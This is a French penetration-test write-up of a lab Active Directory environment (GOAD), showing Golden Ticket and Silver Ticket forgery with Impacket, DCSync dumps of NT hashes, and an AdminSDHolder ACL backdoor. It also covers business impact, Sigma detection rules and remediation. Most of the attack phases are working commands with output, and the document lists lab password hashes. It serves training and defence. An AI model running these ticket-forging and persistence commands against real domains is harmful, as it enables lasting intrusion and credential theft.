



# SC-AD-009 — Domain Dominance

**HikenRoot Forge — MediaTech Groupe SA**

---

## Classification

| Attribut | Valeur |
|----------|--------|
| **Scénario** | SC-AD-009 |
| **Titre** | Domain Dominance — Golden Ticket, Silver Ticket, AdminSDHolder |
| **Référence Mayfly** | [Part 9 — Domain Dominance](https://mayfly277.github.io/posts/GOADv2-pwning-part9/) |
| **Certifications** | CRTP, CRTO |
| **Sévérité** | Critique (CVSS 3.1 : 10.0) |
| **MITRE ATT&CK** | T1558.001, T1558.002, T1003.006, T1098 |
| **Domaines compromis** | sevenkingdoms.local, north.sevenkingdoms.local, essos.local |
| **Date d'exécution** | 8 mars 2026 |
| **Auteur** | hik3nR00t |

---

## Résumé exécutif

### Pour un recruteur

Ce scénario démontre les techniques de **persistance ultime** en Active Directory. Une fois Domain Admin obtenu (via les scénarios SC-AD-004 à SC-AD-008), l'attaquant forge des tickets Kerberos indistinguables des vrais, obtient un accès permanent à toute l'infrastructure, et implante une backdoor ACL auto-réparable. Trois domaines sont compromis simultanément via **Golden Tickets** (TGT forgés avec le hash krbtgt — validité 10 ans), **Silver Tickets** (TGS forgés avec le hash machine — invisible pour le KDC), et **AdminSDHolder** (persistance ACL propagée automatiquement toutes les 60 minutes). Ces techniques représentent le scénario cauchemar pour tout défenseur : même après détection et remédiation partielle, l'attaquant conserve l'accès tant que les secrets Kerberos ne sont pas intégralement rotés.

### Pour un auditeur ISO 27001 / NIS2

- **ISO 27001 — A.8.15 (Logging)** : les Golden et Silver Tickets ne génèrent aucune anomalie dans les logs Kerberos standards. Seule la rotation du mot de passe krbtgt (deux fois, avec un intervalle) invalide les Golden Tickets existants. L'absence de procédure de rotation krbtgt planifiée constitue un manquement critique.
- **ISO 27001 — A.5.15 (Contrôle d'accès)** : AdminSDHolder permet à un attaquant d'implanter une ACE auto-réparable sur tous les groupes protégés. Le processus SDProp (toutes les 60 minutes) restaure automatiquement les ACE supprimées manuellement par un administrateur. Sans audit spécifique d'AdminSDHolder, cette backdoor est indétectable.
- **NIS2 — Article 21 (Gestion des risques)** : l'absence de rotation planifiée du krbtgt et d'audit AdminSDHolder constitue un défaut de gouvernance des secrets cryptographiques Kerberos. Un incident impliquant un Golden Ticket nécessite la reconstruction complète de l'AD.
- **NIS2 — Article 23 (Notification)** : la compromission de krbtgt sur 3 domaines constitue un incident majeur — notification sous 24 heures obligatoire.

### Pour un RSSI

Impact maximal : les 3 domaines GOAD sont sous contrôle total et persistant. Le Golden Ticket donne un accès illimité dans le temps (10 ans par défaut), le Silver Ticket est invisible pour le KDC (pas de log 4769), et AdminSDHolder se répare automatiquement même si un admin détecte et supprime l'ACE. La seule remédiation complète est : rotation krbtgt x2 sur les 3 domaines + audit et nettoyage AdminSDHolder + reconstruction des ACL de tous les groupes protégés. Coût estimé : 300 000 — 800 000 €.

---

## Contexte — Prérequis

Ce scénario nécessite les hash krbtgt et Administrator de chaque domaine, obtenus dans les scénarios précédents :

| Domaine | Administrator hash | krbtgt hash | Source |
|---------|-------------------|-------------|--------|
| sevenkingdoms.local | `c66d72021a2d4744409969a581a1705e` | `b5fc63f9f630a7899d329401734b1c27` | SC-AD-004 (ACL → Shadow Creds → DCSync) |
| north.sevenkingdoms.local | `dbd13e1c4e338284ac4e9874f7de6ef4` | `5883cbf00ea968b503b20628fb83cc55` | SC-AD-005 (noPac → DCSync) |
| essos.local | `54296a48cd30259cc88095373cec24da` | `1d8956cac33793f4d9f14f67eb40ec2a` | SC-AD-005 (PrintNightmare → DCSync) |

---

## Diagramme réseau



---

## Kill Chain



---

## Scope & Méthodologie

| Élément | Détail |
|---------|--------|
| **Périmètre** | GOAD v3 — 3 domaines, 3 DC |
| **Machine d'attaque** | Kali Linux 10.10.10.2 (WireGuard) |
| **Outils** | Impacket v0.14 (ticketer, secretsdump, lookupsid, psexec, smbclient), PowerShell ActiveDirectory module |
| **Référence** | mayfly277 GOAD Part 9 |
| **Approche** | Post-exploitation — toutes les techniques nécessitent DA préalable |

---

## Phases d'exploitation

### Phase 1 — Récupération des Domain SIDs

Le SID du domaine est nécessaire pour forger les tickets Kerberos. Chaque domaine a un SID unique.

**1. SID sevenkingdoms.local**

```bash
impacket-lookupsid 'sevenkingdoms.local/administrator@192.168.10.10' -hashes 'aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e'
```

```
[*] Domain SID is: S-1-5-21-1846414762-2785674156-3461175986
```

**2. SID north.sevenkingdoms.local**

```bash
impacket-lookupsid 'north.sevenkingdoms.local/administrator@192.168.10.11' -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4'
```

```
[*] Domain SID is: S-1-5-21-3213720533-4175198708-350819789
```

**3. SID essos.local**

```bash
impacket-lookupsid 'essos.local/administrator@192.168.10.12' -hashes 'aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da'
```

```
[*] Domain SID is: S-1-5-21-1522390683-177406550-764334066
```

---

### Phase 2 — Golden Ticket : sevenkingdoms.local

Le Golden Ticket est un TGT forgé avec le hash krbtgt. Le KDC ne peut pas le distinguer d'un vrai — il est signé avec la même clé. Validité 10 ans par défaut. L'attaquant n'a plus besoin d'aucun credential — le ticket suffit.

**4. Forge du Golden Ticket**

```bash
impacket-ticketer -nthash 'b5fc63f9f630a7899d329401734b1c27' -domain-sid 'S-1-5-21-1846414762-2785674156-3461175986' -domain sevenkingdoms.local administrator
```

```
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sevenkingdoms.local/administrator
[*] Signing/Encrypting final ticket
[*] Saving ticket in administrator.ccache
```

**5. Validation — DCSync avec le Golden Ticket**

```bash
export KRB5CCNAME=administrator.ccache
impacket-secretsdump -k -no-pass -dc-ip 192.168.10.10 sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local -just-dc-user 'SEVENKINGDOMS\administrator'
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
```

**6. DCSync complet sevenkingdoms.local**

```bash
impacket-secretsdump -k -no-pass -dc-ip 192.168.10.10 sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local -just-dc-ntlm
```

19 hashes extraits incluant tous les utilisateurs du domaine racine, les comptes machine, et les trust keys (`NORTH$`, `ESSOS$`).

---

### Phase 3 — Golden Ticket : north.sevenkingdoms.local

**7. Forge et validation**

```bash
impacket-ticketer -nthash '5883cbf00ea968b503b20628fb83cc55' -domain-sid 'S-1-5-21-3213720533-4175198708-350819789' -domain north.sevenkingdoms.local administrator
```

```bash
export KRB5CCNAME=administrator.ccache
impacket-secretsdump -k -no-pass -dc-ip 192.168.10.11 north.sevenkingdoms.local/administrator@winterfell.north.sevenkingdoms.local -just-dc-user 'NORTH\administrator'
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
```

---

### Phase 4 — Golden Ticket : essos.local

**8. Forge et validation**

```bash
impacket-ticketer -nthash '1d8956cac33793f4d9f14f67eb40ec2a' -domain-sid 'S-1-5-21-1522390683-177406550-764334066' -domain essos.local administrator
```

```bash
export KRB5CCNAME=administrator.ccache
impacket-secretsdump -k -no-pass -dc-ip 192.168.10.12 essos.local/administrator@meereen.essos.local -just-dc-user 'ESSOS\administrator'
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
```

3 Golden Tickets forgés, 3 domaines sous contrôle total et persistant.

---

### Phase 5 — Silver Ticket : CIFS/KINGSLANDING

Le Silver Ticket est un TGS forgé avec le hash du compte machine cible. Contrairement au Golden Ticket, il ne contacte jamais le KDC — aucun Event ID 4769 généré. Plus furtif mais limité à un seul service.

**9. Récupération du hash KINGSLANDING$**

```bash
export KRB5CCNAME=administrator.ccache
impacket-secretsdump -k -no-pass -dc-ip 192.168.10.10 sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local -just-dc-user 'KINGSLANDING$'
```

```
KINGSLANDING$:1002:aad3b435b51404eeaad3b435b51404ee:7dfc57d04627acc3a987f8b98aea0b73:::
```

**10. Forge du Silver Ticket**

```bash
impacket-ticketer -nthash '7dfc57d04627acc3a987f8b98aea0b73' -domain-sid 'S-1-5-21-1846414762-2785674156-3461175986' -domain sevenkingdoms.local -spn 'cifs/kingslanding.sevenkingdoms.local' administrator
```

```
[*] Creating basic skeleton ticket and PAC Infos
[*] Signing/Encrypting final ticket
[*] Saving ticket in administrator.ccache
```

**11. Validation — Accès C$ via Silver Ticket**

```bash
export KRB5CCNAME=administrator.ccache
impacket-smbclient -k -no-pass kingslanding.sevenkingdoms.local
```

```
# shares
ADMIN$
C$
CertEnroll
IPC$
NETLOGON
SYSVOL
# use C$
# ls
drw-rw-rw-  0  Boot
drw-rw-rw-  0  Program Files
drw-rw-rw-  0  Users
drw-rw-rw-  0  Windows
...
```

Accès complet au système de fichiers via un ticket qui n'a jamais contacté le KDC.

---

### Phase 6 — AdminSDHolder : Persistance ACL auto-réparable

AdminSDHolder est un objet AD dont les ACL sont copiées automatiquement (toutes les 60 minutes par SDProp) vers tous les groupes protégés : Domain Admins, Enterprise Admins, Schema Admins, Administrators, etc. Si un attaquant ajoute un ACE sur AdminSDHolder, cet ACE sera propagé et restauré automatiquement — même si un admin le supprime manuellement.

**12. Shell SYSTEM via Golden Ticket + psexec**

```bash
impacket-ticketer -nthash 'b5fc63f9f630a7899d329401734b1c27' -domain-sid 'S-1-5-21-1846414762-2785674156-3461175986' -domain sevenkingdoms.local administrator
export KRB5CCNAME=administrator.ccache
impacket-psexec -k -no-pass sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local -dc-ip 192.168.10.10
```

```
C:\Windows\system32> whoami
nt authority\system
```

**13. Injection ACE sur AdminSDHolder**

```powershell
Import-Module ActiveDirectory
$sid = (Get-ADUser tywin.lannister).SID
$acl = Get-Acl 'AD:CN=AdminSDHolder,CN=System,DC=sevenkingdoms,DC=local'
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($sid,'GenericAll','Allow')
$acl.AddAccessRule($ace)
Set-Acl 'AD:CN=AdminSDHolder,CN=System,DC=sevenkingdoms,DC=local' $acl
```

**14. Vérification ACE sur AdminSDHolder**

```powershell
(Get-Acl 'AD:CN=AdminSDHolder,CN=System,DC=sevenkingdoms,DC=local').Access | Where-Object {$_.IdentityReference -like '*tywin*'} | Format-List
```

```
ActiveDirectoryRights : GenericAll
AccessControlType     : Allow
IdentityReference     : SEVENKINGDOMS\tywin.lannister
IsInherited           : False
```

**15. Déclenchement manuel de SDProp**

```powershell
$rootDSE = [ADSI]"LDAP://RootDSE"
$rootDSE.Put("runProtectAdminGroupsTask", 1)
$rootDSE.SetInfo()
```

**16. Vérification de la propagation vers Domain Admins**

```powershell
(Get-Acl 'AD:CN=Domain Admins,CN=Users,DC=sevenkingdoms,DC=local').Access | Where-Object {$_.IdentityReference -like '*tywin*'} | Format-List
```

```
ActiveDirectoryRights : GenericAll
AccessControlType     : Allow
IdentityReference     : SEVENKINGDOMS\tywin.lannister
IsInherited           : False
```

`tywin.lannister` a maintenant GenericAll sur Domain Admins, Enterprise Admins, et tous les groupes protégés. Cette ACE est auto-réparable par SDProp.

**17. Cleanup**

```powershell
$sid = (Get-ADUser tywin.lannister).SID
$acl = Get-Acl 'AD:CN=AdminSDHolder,CN=System,DC=sevenkingdoms,DC=local'
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($sid,'GenericAll','Allow')
$acl.RemoveAccessRule($ace)
Set-Acl 'AD:CN=AdminSDHolder,CN=System,DC=sevenkingdoms,DC=local' $acl
```

```
AdminSDHolder cleaned
```

---

## Credentials & secrets récupérés

### Golden Ticket material

| Domaine | krbtgt hash | Domain SID |
|---------|-------------|------------|
| sevenkingdoms.local | `b5fc63f9f630a7899d329401734b1c27` | `S-1-5-21-1846414762-2785674156-3461175986` |
| north.sevenkingdoms.local | `5883cbf00ea968b503b20628fb83cc55` | `S-1-5-21-3213720533-4175198708-350819789` |
| essos.local | `1d8956cac33793f4d9f14f67eb40ec2a` | `S-1-5-21-1522390683-177406550-764334066` |

### Silver Ticket material

| Machine | Hash NT | SPN forgé |
|---------|---------|-----------|
| KINGSLANDING$ | `7dfc57d04627acc3a987f8b98aea0b73` | cifs/kingslanding.sevenkingdoms.local |

### DCSync complet sevenkingdoms.local (19 hashes)

| Compte | Hash NT |
|--------|---------|
| Administrator | `c66d72021a2d4744409969a581a1705e` |
| krbtgt | `b5fc63f9f630a7899d329401734b1c27` |
| tywin.lannister | `af52e9ec3471788111a6308abff2e9b7` |
| jaime.lannister | `7dfa0531d73101ca080c7379a9bff1c7` |
| cersei.lannister | `c247f62516b53893c7addcf8c349954b` |
| robert.baratheon | `9029cf007326107eb1c519c84ea60dbe` |
| joffrey.baratheon | `3b60abbc25770511334b3829866b08f1` |
| stannis.baratheon | `7dfa0531d73101ca080c7379a9bff1c7` |
| petyer.baelish | `6c439acfa121a821552568b086c8d210` |
| lord.varys | `52ff2a79823d81d6a3f4f8261d7acc59` |
| maester.pycelle | `9a2a96fa3ba6564e755e8d455c007952` |
| KINGSLANDING$ | `7dfc57d04627acc3a987f8b98aea0b73` |
| NORTH$ (trust key) | `206bf8110e30d0ed8457dfe60626d346` |
| ESSOS$ (trust key) | `63fff1442d77eee1e590d74b28cda33d` |

---

## Impact technique

- **Golden Ticket = persistance 10 ans** : un TGT forgé avec krbtgt est indistinguable d'un vrai. Le KDC l'accepte sans vérification. Seule la rotation krbtgt (x2 avec intervalle) l'invalide.
- **Silver Ticket = invisible pour le KDC** : le ticket ne passe jamais par le KDC — aucun Event ID 4769. Détectable uniquement par validation PAC côté service (rarement activée).
- **AdminSDHolder = backdoor auto-réparable** : SDProp propage les ACE toutes les 60 minutes. Un admin qui supprime l'ACE sur Domain Admins la verra revenir automatiquement. Il faut auditer AdminSDHolder directement.
- **Trust keys = pivot cross-forest** : les hashes NORTH$ et ESSOS$ dans le DCSync sevenkingdoms permettent de forger des inter-realm TGT pour pivoter entre forêts (technique SC-AD-010).
- **3 domaines = compromission totale** : la possession de krbtgt sur les 3 domaines signifie que TOUT l'environnement AD est sous contrôle persistant.

---

## Impact métier — MediaTech Groupe SA

### Synthèse
À ce stade, l'attaquant **détient déjà le domaine** et installe sa **persistance** : DCSync de tous les secrets, **Golden Ticket** (krbtgt), portes dérobées ACL (AdminSDHolder), éventuellement DCShadow. La caractéristique n'est plus l'accès — c'est la **durabilité** : même après un reset de mots de passe, l'attaquant peut **revenir**. Pour une rédaction, c'est le scénario où l'on ne sait plus si l'on a vraiment repris le contrôle, ni si les échanges avec les sources ont fuité.

### Gravité : 🔴 CRITIQUE *(dominance + persistance ; l'éradication, pas seulement l'accès, devient le problème)*

### Impact chiffré

| Poste | Estimation | Hypothèse |
|---|---|---|
| Arrêt + reconstruction de confiance AD | 400 k€ – 1,5 M€ | La persistance impose souvent un **rebuild AD** (double rotation krbtgt testée, voire nouvelle forêt) — bien plus lourd qu'un simple nettoyage. |
| Exposition RGPD massive | 300 k€ – 2 M€ | Tous les secrets exfiltrés → toutes les bases (abonnés, RH, finance). Notification CNIL + personnes. |
| Atteinte aux sources journalistiques | *non chiffrable — existentiel* | Si des échanges rédactionnels ont fuité : perte de confiance des sources, risque légal (protection des sources). C'est l'atteinte au **titre**, pas au bilan. |
| Réponse à incident majeure prolongée | 200 k€ – 500 k€ | DFIR long (chasse aux persistances), cellule de crise, communication de crise. |
| **Total réaliste** | **~1 M€ – 4 M€+** | La partie financière est bornable ; l'atteinte réputationnelle/éditoriale ne l'est pas. |

> **Réalité rédaction** : le vrai cauchemar n'est pas que le journal ne sorte pas un jour — c'est de ne **jamais être sûr** d'avoir viré l'intrus. Un Golden Ticket valide 10 ans, une ACL DCSync posée discrètement : on peut « nettoyer » et se faire re-compromettre le mois suivant. À ce niveau, on ne restaure pas, on **reconstruit la confiance**.

### Réglementaire
- **RGPD Art. 32 + 33/34** — compromission totale, notifications.
- **NIS2 Art. 21 + 23** — incident significatif, obligation de notification et de mesures de continuité.
- **ISO 27001 A.8.2** (privilèges), **A.8.16** (surveillance des activités), **A.5.29** (sécurité pendant une perturbation — continuité), **A.5.26** (réponse aux incidents).
- **Presse** — protection des sources (loi du 4 janvier 2010) si des données rédactionnelles sont exposées.

### Décision COMEX
- **Valider et financer un plan de reconstruction de confiance AD** (procédure de double rotation krbtgt testée, chasse aux persistances AdminSDHolder/ACL DCSync/comptes machine) — décision de reconstruction, pas de rustine.
- **Dimensionner la cyber-assurance et la cellule de crise sur ce scénario précis** (incident majeur prolongé + volet réputationnel/sources), et déclencher le **plan de communication de crise** validé en amont.

## Détection SOC / SIEM

### Event IDs critiques

| Event ID | Source | Description |
|----------|--------|-------------|
| 4769 | Security | TGS request — un Golden Ticket forgé hors-ligne ne génère **pas** de 4768 ; il se détecte à l'usage (4769, RC4/horodatage anormaux) |
| 4769 | Security | TGS request — absent pour Silver Tickets (point de détection négatif) |
| 5136 | Security | Modification AdminSDHolder |
| 4662 | Security | DCSync — accès aux attributs de réplication |
| 4724 | Security | Reset mot de passe krbtgt (rotation légitime) |

### Règles Sigma

```yaml
title: Golden Ticket — TGT with Abnormal Lifetime
id: sc-ad-009-001
status: experimental
description: Détecte les TGT avec une durée de vie anormalement longue (Golden Ticket par défaut = 10 ans)
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4769
        TicketOptions: '0x40810010'
    condition: selection
level: high
tags:
    - attack.credential_access
    - attack.t1558.001
```

```yaml
title: AdminSDHolder ACE Modification
id: sc-ad-009-002
status: experimental
description: Détecte la modification des ACL sur AdminSDHolder
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 5136
        ObjectDN|contains: 'CN=AdminSDHolder,CN=System'
    condition: selection
level: critical
tags:
    - attack.persistence
    - attack.t1098
```

```yaml
title: Silver Ticket Detection — Service Access Without Prior TGS Request
id: sc-ad-009-003
status: experimental
description: Détecte un accès service (4624 type 3) sans Event 4769 correspondant — indicateur de Silver Ticket
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4624
        LogonType: 3
        AuthenticationPackageName: 'Kerberos'
    condition: selection
level: medium
tags:
    - attack.credential_access
    - attack.t1558.002
note: Corrélation requise — vérifier l'absence de 4769 pour le même ServiceName dans les 5 minutes précédentes
```

```yaml
title: DSRM Registry Key Modified
id: sc-ad-009-004
status: experimental
description: Détecte la modification de DsrmAdminLogonBehavior — indicateur de backdoor DSRM
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID:
            - 4657
            - 13
        TargetObject|contains: 'DsrmAdminLogonBehavior'
    condition: selection
falsepositives:
    - Modification légitime lors d'un DR test planifié
level: critical
tags:
    - attack.persistence
    - attack.t1003
```

---

## Remédiation Secure by Design

### 0-24h (urgence)

- **Rotation krbtgt x2** sur les 3 domaines (intervalle 10h minimum entre les deux rotations) :

```powershell
# Sur chaque DC — exécuter 2 fois à 10h d'intervalle
Set-ADAccountPassword -Identity krbtgt -Reset -NewPassword (ConvertTo-SecureString "$(New-Guid)$(New-Guid)" -AsPlainText -Force)
```

- **Audit AdminSDHolder** :

```powershell
# Vérifier le DsrmAdminLogonBehavior sur tous les DC
reg query "HKLM\System\CurrentControlSet\Control\Lsa" /v DsrmAdminLogonBehavior
# Si présent (valeur 2) → supprimer immédiatement
reg delete "HKLM\System\CurrentControlSet\Control\Lsa" /v DsrmAdminLogonBehavior /f
# Changer le mot de passe DSRM sur tous les DC
ntdsutil "set dsrm password" "reset password on server null" q q
```

- **Audit AdminSDHolder** :

```powershell
(Get-Acl 'AD:CN=AdminSDHolder,CN=System,DC=sevenkingdoms,DC=local').Access | Where-Object {$_.IdentityReference -notlike '*BUILTIN*' -and $_.IdentityReference -notlike '*NT AUTHORITY*' -and $_.IdentityReference -notlike '*Domain Admins*' -and $_.IdentityReference -notlike '*Enterprise Admins*'} | Format-List
```

### 1 semaine

- Rotation des mots de passe de tous les comptes machine
- Monitoring SIEM Event IDs 4769, 5136, 4662
- Revue des trust keys inter-forêts

### 1 mois

- **Rotation krbtgt planifiée** : tous les 180 jours via script automatisé
- **Audit AdminSDHolder trimestriel** : script de vérification des ACE non standard
- **Protected Users** pour tous les comptes sensibles (bloque la capture de credentials en mémoire)
- **PAC validation** côté services pour détecter les Silver Tickets

---

## Architecture cible sécurisée



---

## Références

- [mayfly277 — GOAD Part 9 Domain Dominance](https://mayfly277.github.io/posts/GOADv2-pwning-part9/)
- [adsecurity.org — Golden Tickets](https://adsecurity.org/?p=1640)
- [adsecurity.org — Silver Tickets](https://adsecurity.org/?p=2011)
- [ired.team — AdminSDHolder Persistence](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/intesting-adminsdhholder-persistence)
- [harmj0y — AdminSDHolder, SDProp and DVNT](https://blog.harmj0y.net/activedirectory/abusing-active-directorys-sdprop-for-fun-and-profit/)
- [ADSecurity — DSRM Backdoor](https://adsecurity.org/?p=1714)
- [Microsoft — krbtgt account](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/krbtgt-account)
- [MITRE ATT&CK T1558.001 — Golden Ticket](https://attack.mitre.org/techniques/T1558/001/)
- [MITRE ATT&CK T1558.002 — Silver Ticket](https://attack.mitre.org/techniques/T1558/002/)
- [MITRE ATT&CK T1098 — Account Manipulation](https://attack.mitre.org/techniques/T1098/)

---

*HikenRoot Forge — SC-AD-009 — hik3nR00t — Mars 2026*
